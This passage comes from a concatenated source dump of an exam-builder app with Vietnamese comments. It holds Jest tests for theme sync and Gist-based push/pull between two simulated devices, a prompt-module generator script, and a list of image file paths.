      expect(sanitizeTheme({ id: 'Bad Id!' })).toBeNull();
      expect(sanitizeTheme({ id: '' })).toBeNull();
      expect(sanitizeTheme(null)).toBeNull();
      expect(sanitizeTheme('midnight')).toBeNull();
    });
    test('thieu updated_at -> null (coi nhu epoch)', () => {
      expect(sanitizeTheme({ id: 'cold' })).toEqual({ id: 'cold', updated_at: null });
    });
  });

  describe('pickNewerTheme', () => {
    test('chi 1 ben co theme -> ben do', () => {
      expect(pickNewerTheme({ id: 'ocean', updated_at: T1 }, null)).toEqual({ id: 'ocean', updated_at: T1 });
      expect(pickNewerTheme(null, { id: 'pine', updated_at: T1 })).toEqual({ id: 'pine', updated_at: T1 });
    });
    test('secondary moi hon -> secondary', () => {
      const out = pickNewerTheme({ id: 'cold', updated_at: T1 }, { id: 'peach', updated_at: T2 });
      expect(out).toEqual({ id: 'peach', updated_at: T2 });
    });
    test('primary moi hon -> primary', () => {
      const out = pickNewerTheme({ id: 'peach', updated_at: T2 }, { id: 'cold', updated_at: T1 });
      expect(out).toEqual({ id: 'peach', updated_at: T2 });
    });
    test('bang moc thoi gian -> giu primary (tat dinh)', () => {
      const out = pickNewerTheme({ id: 'grape', updated_at: T1 }, { id: 'plum', updated_at: T1 });
      expect(out.id).toBe('grape');
    });
    test('ben chua tung doi (khong co moc) thua ben da doi', () => {
      const out = pickNewerTheme({ id: 'cold', updated_at: null }, { id: 'mocha', updated_at: T1 });
      expect(out.id).toBe('mocha');
    });
  });

  test('parseLibrary giu theme hop le, bo theme id rong', () => {
    expect(parseLibrary(JSON.stringify(withTheme({ id: 'winter', updated_at: T1 }))).theme)
      .toEqual({ id: 'winter', updated_at: T1 });
    expect(parseLibrary(JSON.stringify(withTheme({ id: '' }))).theme).toBeUndefined();
  });

  test('mergeLibraries dua theme moi hon vao ket qua', () => {
    const primary = { ...lib([exam('a')]), theme: { id: 'cold', updated_at: T1 } };
    const secondary = { ...lib([exam('b')]), theme: { id: 'honey', updated_at: T2 } };
    expect(mergeLibraries(primary, secondary).theme).toEqual({ id: 'honey', updated_at: T2 });
  });

  test('purgeOldTombstones giu theme', () => {
    const out = purgeOldTombstones(withTheme({ id: 'rose', updated_at: T1 }), 90);
    expect(out.theme).toEqual({ id: 'rose', updated_at: T1 });
  });
});

```

### FILE: tests/sync/syncFlow.e2e.test.js

```javascript
process.env.EXAM_DB_PATH = ':memory:';

const http = require('http');
const express = require('express');
const request = require('supertest');

// E2E: 2 "thiet bi" (2 CSDL in-memory rieng) dong bo qua 1 mock GitHub Gist,
// dung gistClient THAT (khong mock module) - chi tro GITHUB_API_BASE toi mock.

let ghServer;
let gistStore = null;

beforeAll(done => {
  ghServer = http.createServer((req, res) => {
    let body = '';
    req.on('data', c => (body += c));
    req.on('end', () => {
      const json = (code, obj) => { res.writeHead(code, { 'Content-Type': 'application/json' }); res.end(JSON.stringify(obj)); };
      if (req.method === 'POST' && req.url === '/gists') {
        const f = JSON.parse(body).files;
        gistStore = { id: 'g-e2e', html_url: 'https://gist.github.com/g-e2e', files: f };
        return json(201, gistStore);
      }
      if (req.url === '/gists/g-e2e' && req.method === 'GET') return json(200, gistStore);
      if (req.url === '/gists/g-e2e' && req.method === 'PATCH') {
        gistStore.files = { ...gistStore.files, ...JSON.parse(body).files };
        return json(200, gistStore);
      }
      json(404, { message: 'nope' });
    });
  });
  ghServer.listen(0, () => {
    process.env.GITHUB_API_BASE = `http://127.0.0.1:${ghServer.address().port}`;
    done();
  });
});

afterAll(done => { delete process.env.GITHUB_API_BASE; ghServer.close(done); });

const BLOCKS = [{
  block_type: 'MULTIPLE_CHOICE',
  questions: [{
    question_type: 'MCQ', content: 'q', difficulty_level: 'NB', correct_answer: 'A',
    options: [{ option_key: 'A', option_text: '1', is_correct: true }, { option_key: 'B', option_text: '2', is_correct: false }]
  }]
}];

// Moi "thiet bi" = 1 app Express rieng tren 1 file CSDL rieng.
function makeDevice(dbFile) {
  jest.resetModules();
  process.env.EXAM_DB_PATH = dbFile;
  const archiveRoutes = require('../../backend/routes/archiveRoutes');
  const syncRoutes = require('../../backend/routes/syncRoutes');
  const { closeDb } = require('../../backend/database');
  const { errorHandler } = require('../../backend/errorHandler');
  const app = express();
  app.use(express.json());
  app.use('/api/archive', archiveRoutes);
  app.use('/api/sync', syncRoutes);
  app.use(errorHandler);
  return { app, closeDb };
}

test('TC-E2E-01: PC tao de -> Push (tao Gist) -> Android nhap Gist ID -> Pull thay de; Android xoa -> Push -> PC Pull thi de bien mat', async () => {
  const tmpdir = require('os').tmpdir();
  const path = require('path');
  const pcDbPath = path.join(tmpdir, `eb-e2e-pc-${Date.now()}.db`);
  const adrDbPath = path.join(tmpdir, `eb-e2e-adr-${Date.now()}.db`);
  const fs = require('fs');
  [pcDbPath, adrDbPath].forEach(p => { if (fs.existsSync(p)) fs.unlinkSync(p); });

  // --- PC ---
  let pc = makeDevice(pcDbPath);
  const saved = await request(pc.app).post('/api/archive').send({ title: 'De cua PC', blocks: BLOCKS });
  const examId = saved.body.exam_id;
  await request(pc.app).post('/api/sync/settings').send({ github_token: 'tok_pc' });
  const push1 = await request(pc.app).post('/api/sync/push');
  expect(push1.status).toBe(200);
  expect(push1.body.gist_id).toBe('g-e2e');
  await pc.closeDb();

  // --- Android ---
  let adr = makeDevice(adrDbPath);
  await request(adr.app).post('/api/sync/settings').send({ github_token: 'tok_adr', gist_id: 'g-e2e' });
  const pull1 = await request(adr.app).post('/api/sync/pull');
  expect(pull1.status).toBe(200);
  const adrList = await request(adr.app).get('/api/archive');
  expect(adrList.body.exams.map(e => e.title)).toContain('De cua PC');

  // Android xoa de roi Push
  await request(adr.app).delete(`/api/archive/${examId}`);
  const push2 = await request(adr.app).post('/api/sync/push');
  expect(push2.status).toBe(200);
  await adr.closeDb();

  // --- PC keo ve -> de da bi xoa ---
  pc = makeDevice(pcDbPath);
  const pull2 = await request(pc.app).post('/api/sync/pull');
  expect(pull2.status).toBe(200);
  const pcList = await request(pc.app).get('/api/archive');
  expect(pcList.body.exams.find(e => e.exam_id === examId)).toBeUndefined();
  await pc.closeDb();

  [pcDbPath, adrDbPath].forEach(p => { if (fs.existsSync(p)) fs.unlinkSync(p); });
});

test('TC-E2E-02: chu de mau dong bo qua Gist - "lan doi gan nhat thang"', async () => {
  gistStore = null;
  const tmpdir = require('os').tmpdir();
  const path = require('path');
  const fs = require('fs');
  const pcDbPath = path.join(tmpdir, `eb-e2e-theme-pc-${Date.now()}.db`);
  const adrDbPath = path.join(tmpdir, `eb-e2e-theme-adr-${Date.now()}.db`);
  [pcDbPath, adrDbPath].forEach(p => { if (fs.existsSync(p)) fs.unlinkSync(p); });

  const T1 = '2026-03-01T00:00:00.000Z';
  const T2 = '2026-07-01T00:00:00.000Z';

  // --- PC dat theme "winter" roi Push ---
  let pc = makeDevice(pcDbPath);
  await request(pc.app).post('/api/archive').send({ title: 'De', blocks: BLOCKS });
  await request(pc.app).post('/api/sync/settings').send({ github_token: 'tok_pc' });
  const push1 = await request(pc.app).post('/api/sync/push').send({ theme: { id: 'winter', updated_at: T1 } });
  expect(push1.status).toBe(200);
  expect(push1.body.theme).toEqual({ id: 'winter', updated_at: T1 });
  await pc.closeDb();

  // --- Android Pull (chua tung doi theme) -> nhan "winter" ---
  let adr = makeDevice(adrDbPath);
  await request(adr.app).post('/api/sync/settings').send({ github_token: 'tok_adr', gist_id: 'g-e2e' });
  const pull1 = await request(adr.app).post('/api/sync/pull')
    .send({ theme: { id: 'cold', updated_at: '1970-01-01T00:00:00.000Z' } });
  expect(pull1.status).toBe(200);
  expect(pull1.body.theme.id).toBe('winter');

  // --- Android doi theme "grape" (moc moi hon) roi Push ---
  const push2 = await request(adr.app).post('/api/sync/push').send({ theme: { id: 'grape', updated_at: T2 } });
  expect(push2.status).toBe(200);
  expect(push2.body.theme).toEqual({ id: 'grape', updated_at: T2 });
  await adr.closeDb();

  // --- PC Pull -> theme cu (winter/T1) thua -> nhan "grape" ---
  pc = makeDevice(pcDbPath);
  const pull2 = await request(pc.app).post('/api/sync/pull').send({ theme: { id: 'winter', updated_at: T1 } });
  expect(pull2.status).toBe(200);
  expect(pull2.body.theme.id).toBe('grape');
  await pc.closeDb();

  [pcDbPath, adrDbPath].forEach(p => { if (fs.existsSync(p)) fs.unlinkSync(p); });
});

```

### FILE: tools/gen-prompt-module.js

```javascript
'use strict';
/**
 * Sinh lai frontend/promptTemplate.js tu Gemini_Prompt_Unified.txt (nguon
 * duy nhat cua prompt). Chay sau khi sua prompt trong file .txt:
 *
 *   node tools/gen-prompt-module.js        (hoac: npm run gen:prompt)
 *
 * - EXAM_PROMPT_TEMPLATE = PHAN 2 (doan promptBuilder.js trich ra, giua 2 moc "===")
 * - EXAM_PROMPT_EXAMPLE  = PHAN 3 (vi du ket qua mau - dong "=PHAN_1..." cuoi cung tro di)
 * Escape "\" -> "\\" de LaTeX ($\frac...$) khong bi template literal an mat dau "\".
 */
const fs = require('fs');
const path = require('path');

const ROOT = path.resolve(__dirname, '..');
const { extractFormatInstructions } = require(path.join(ROOT, 'backend/llm/promptBuilder'));

const txt = fs.readFileSync(path.join(ROOT, 'Gemini_Prompt_Unified.txt'), 'utf8');
const template = extractFormatInstructions();
const example = txt.slice(txt.lastIndexOf('=PHAN_1_TRAC_NGHIEM=')).trim();

if (!template.includes('[CAU_HOI]') || !example.includes('[CAU_HOI]')) {
  console.error('Khong tach duoc PHAN 2 / PHAN 3 - kiem tra lai moc "===" va "(ket thuc PROMPT)" trong .txt');
  process.exit(1);
}

const esc = s => s.replace(/\\/g, '\\\\').replace(/`/g, '\\`').replace(/\$\{/g, '\\${');

const out =
`// TU DONG SINH tu Gemini_Prompt_Unified.txt bang tools/gen-prompt-module.js -- DUNG SUA TAY.
// Nguon duy nhat cua prompt la file .txt o goc du an; sua o do roi chay: npm run gen:prompt
// Tach thanh module de khu "Prompt mau cho AI" trong UI copy 1-click ma khong goi server.
export const EXAM_PROMPT_TEMPLATE = \`${esc(template)}\`;

export const EXAM_PROMPT_EXAMPLE = \`${esc(example)}\`;
`;

fs.writeFileSync(path.join(ROOT, 'frontend/promptTemplate.js'), out);
console.log(`OK -> frontend/promptTemplate.js  (template ${template.length} ky tu, example ${example.length} ky tu)`);

```

# BINARY FILES (khong nhung noi dung nhi phan, chi liet ke duong dan)

- Exam builder for adr/app/src/main/res/mipmap-hdpi/ic_launcher.png
- Exam builder for adr/app/src/main/res/mipmap-hdpi/ic_launcher_foreground.png
- Exam builder for adr/app/src/main/res/mipmap-hdpi/ic_launcher_round.png
- Exam builder for adr/app/src/main/res/mipmap-mdpi/ic_launcher.png
- Exam builder for adr/app/src/main/res/mipmap-mdpi/ic_launcher_foreground.png
- Exam builder for adr/app/src/main/res/mipmap-mdpi/ic_launcher_round.png
- Exam builder for adr/app/src/main/res/mipmap-xhdpi/ic_launcher.png
- Exam builder for adr/app/src/main/res/mipmap-xhdpi/ic_launcher_foreground.png
- Exam builder for adr/app/src/main/res/mipmap-xhdpi/ic_launcher_round.png
- Exam builder for adr/app/src/main/res/mipmap-xxhdpi/ic_launcher.png
- Exam builder for adr/app/src/main/res/mipmap-xxhdpi/ic_launcher_foreground.png
- Exam builder for adr/app/src/main/res/mipmap-xxhdpi/ic_launcher_round.png
- Exam builder for adr/app/src/main/res/mipmap-xxxhdpi/ic_launcher.png
- Exam builder for adr/app/src/main/res/mipmap-xxxhdpi/ic_launcher_foreground.png
- Exam builder for adr/app/src/main/res/mipmap-xxxhdpi/ic_launcher_round.png
- resources/image/icon.png
- resources/image/theme/ColdColor.png
- resources/image/theme/Color Hunt Palette 3368a066a3bfc8dfdbf2efe7.png
- resources/image/theme/Color Hunt Palette 3e0f8d9564dde4da72eeeeee.png
- resources/image/theme/Color Hunt Palette 499a13bbdc128eca3c276f27.png
- resources/image/theme/Color Hunt Palette 601d49bd5579ea9d9dffebb8.png
- resources/image/theme/Color Hunt Palette e3f2fd90caf92196f30d47a1.png
- resources/image/theme/Color Hunt Palette e4e0e1d6c0b3ab886d493628.png
- resources/image/theme/Color Hunt Palette fbefefffe2e2f5cbcbc5b3d3.png
- resources/image/theme/Color Hunt Palette fdf4d2b0cde6a290b7946d6d.png
- resources/image/theme/Color Hunt Palette ff9d9dffc5aaeef8cdbbf1d2.png
- resources/image/theme/Color Hunt Palette ffdcdcfff2ebffe8cdffd6ba.png
- resources/image/theme/Color Hunt Palette ffeeccffddccffccccfebbcc.png
- resources/image/theme/Color Hunt Palette fff2c6fff8deaac4f58ca9ff.png
- resources/image/theme/Color Hunt Palette fff2d7ffe0b5f8c794d8ae7e.png
- resources/image/theme/DarkColdColor.png
- resources/image/theme/DarkWinterColor.png
- resources/image/theme/FallColor.png
- resources/image/theme/SummerColor.png
- resources/image/theme/WinterColor.png

